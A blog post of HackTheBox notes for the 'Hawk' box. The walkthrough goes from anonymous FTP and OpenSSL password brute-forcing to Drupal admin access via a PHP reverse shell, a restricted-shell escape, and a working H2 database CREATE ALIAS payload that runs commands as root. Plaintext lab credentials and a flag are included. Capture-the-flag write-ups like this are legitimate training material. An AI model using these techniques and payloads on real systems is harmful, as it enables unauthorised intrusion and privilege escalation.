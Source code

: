 ```yaml
---
title: HackTheBox Notes - Hawk (ft. Procrastination)
category: infosec
date: 2019-02-13
thumbnail: hawk-thumb.png
tags: htb
description:
---
```


Due to my incredible laziness, my last HTB article was five months ago. This is because I can't be bothered to explain stuff in a proper walkthrough of the boxes, so here's something much easier: I'm just posting the notes I was writing down as I was going through the box.

This is probably what I'm going to keep doing for HTB from now on, I have another three boxes that I'll publish when they are retired. But worry not, I promise after those boxes, I'll have much higher quality notes that won't be a confusing and poorly written mess.

I'm also not doing those old thumbnails of the box pictures anymore because those are way to hard to draw on a touchpad.

- - - -

### Nmap Scan
```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-11-05 18:11 AEDT
Nmap scan report for 10.10.10.102
Host is up (0.28s latency).
Not shown: 937 closed ports, 60 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Jun 16 22:21 messages
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.2
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:0c:cb:c5:a5:91:78:ea:54:96:af:4d:03:e4:fc:88 (RSA)
|   256 95:cb:f8:c7:35:5e:af:a9:44:8b:17:59:4d:db:5a:df (ECDSA)
|_  256 4a:0b:2e:f7:1d:99:bc:c7:d3:0b:91:53:b9:3b:e2:79 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome to 192.168.56.103 | 192.168.56.103
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.09 seconds
```

### FTP Server
`ftp://10.10.10.120`

* Allows anonymous login
* Only file in `messages/.drupal.txt.enc`
* Can’t download with `get` for some reason, so let’s just view it

```
ftp> get .drupal.txt.enc -
remote: .drupal.txt.enc
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .drupal.txt.enc (240 bytes).
U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJb
CmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQz
QUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfy
t4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=
226 Transfer complete.
240 bytes received in 0.00 secs (5.8688 MB/s)
ftp>
```
Just a base64 string

* But decoding it makes some gibberish
```
justin@sierra-fc282: ~ ➜ echo
"U2FsdGVkX19rWSAG1JNpLTawAmzz/ckaN1oZFZewtIM+e84km3Csja3GADUg2jJbCmSdwTtr/IIShvTbUd0yQxfe9OuoMxxfNIUN/YPHx+vVw/6eOD+Cc1ftaiNUEiQzQUf9FyxmCb2fuFoOXGphAMo+Pkc2ChXgLsj4RfgX+P7DkFa8w1ZA9Yj7kR+tyZfyt4M0qvmWvMhAj3fuuKCCeFoXpYBOacGvUHRGywb4YCk=" | base64 --decode
Salted__kY ԓi-6�l���7Z����>{�$�p����5 �2[
���������8?�sW�j#T$3AG�,f       ���Z\ja�>>G6
�.��E���ÐV��V@�����ɗ�4�����@�w�xZ��Ni��PtF��`)%
justin@sierra-fc282: ~ ➜
```

* Now as it turns out, I did in fact download it but I just didn’t see it because it was a hidden file and I was using a normal `ls`…
* Anyway, because of the `.enc` extension, I’m gonna go ahead and assume it’s encrypted with OpenSSL. So now we save the decoded version to a file
`cat drupal.txt.enc | base64 --decode > drupal.b64d.enc`
* Downloaded [this tool to bruteforce the password](https://github.com/glv2/bruteforce-salted-openssl)
* And now we try it with some basic options

```
root@kali:~/Documents/htb/hawk# /opt/file/bruteforce-salted-openssl/bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -c aes256 -v 30 drupal.b64d.enc

Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 14344391
Tried passwords per second: 896524.437500
Last tried password: *7¡Vamos!

Password not found.
The file might have been encrypted with a different cipher or/and a
different digest (e.g. OpenSSL 1.0.x uses the MD5 digest by default
but OpenSSL 1.1.x uses SHA256 by default).
```
Nope. This might take a while…

* Okay let’s try it with a different digest `sha256`

```
root@kali:~/Documents/htb/hawk# /opt/file/bruteforce-salted-openssl/bruteforce-salted-openssl -t 6 -f /usr/share/wordlists/rockyou.txt -c aes256 -d sha256 -v 30 drupal.b64d.enc
Warning: using dictionary mode, ignoring options -b, -e, -l, -m and -s.

Tried passwords: 32
Tried passwords per second: inf
Last tried password: hello

Password candidate: friends
```
That was easy. We were not here for a while, I lied

* Now we can decrypt it

```
root@kali:~/Documents/htb/hawk# openssl enc -d -aes256 -salt -in drupal.b64d.enc -out drupal.decrypted -k friends
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
root@kali:~/Documents/htb/hawk# cat drupal.decrypted
Daniel,

Following the password for the portal:

PencilKeyboardScanner123

Please let us know when the portal is ready.

Kind Regards,

IT department
```
Neato

### Drupal Web Portal
`http://10.10.10.102`

* Login with `Admin`:`PencilKeyboardScanner123`
* `admin/reports/status` says Drupal version is `7.58`
	*  `/CHANGELOG.txt` says it was patched for `CVE-2018-7600`
* Looks like we gotta upload a good ol’ PHP reverse shell.
	* First we need to allow Drupal to add PHP page snippets. In `admin/modules` tick the `PHP Filter` option
	* Go to `node/add/page` and upload the shellcode
	* You know the rest

### PHP Reverse Shell
* Logged in as `www-data`
* We have access to `/home/daniel/user.txt`. So just get that
- - - -
* Attempted to ssh with a password found in `/var/www/html/sites/default/settings.php ` - `drupal4hawk` with username `daniel`

### SSH Python Client
* `daniel` user uses a Python restricted shell. So yep
* Easy fix `import pty; pty.spawn(‘/bin/bash’)`

### SSH Bash Client
* Logged into mysql server with `drupal`:`drupal4hawk`
	* In `users` table

```
name: admin
pass: $S$DFw163ixD00W55hdCqtvCB13XOTLhZ0pt0FVpFy1Ntmdp5EAOX08
```
The hash is a special `sha512 (Drupal)` hash, so this is probably not where we are supposed to be

* Another database `h2` is running as root. We can access it on `10.10.10.102:8082`
	* But we get denied access because it only accepts connections from localhost, we need to set up a proxy
	* Create a new SSH session with `ssh -D 8080 daniel@10.10.10.102`
	* Setup Firefox to allow SOCKS proxy with `127.0.0.1:8080`
	* Now we can access it
* Looking back at `ps -aux` we see that the process is running without the `-user` or `-pass` args which means we can access it with default credentials
	* But, of course… this doesn’t work
	* [Frequently Asked Questions](http://www.h2database.com/html/faq.html#connect) for `h2` shows that the database may be stored somewhere different
	* Replaced `~/test` with `./data/test` and we’re in

### H2 Web Console
`10.10.10.102:8082`

* Looked for an exploit and [found this](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html)
* So in the console you run

```
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('cat /root/root.txt')
```
And it displays
```
CALL SHELLEXEC('cat /root/root.txt');
PUBLIC.SHELLEXEC('cat /root/root.txt')
54f3e840fe5564b42a8320fd2b608ba0
(1 row, 5 ms)
```
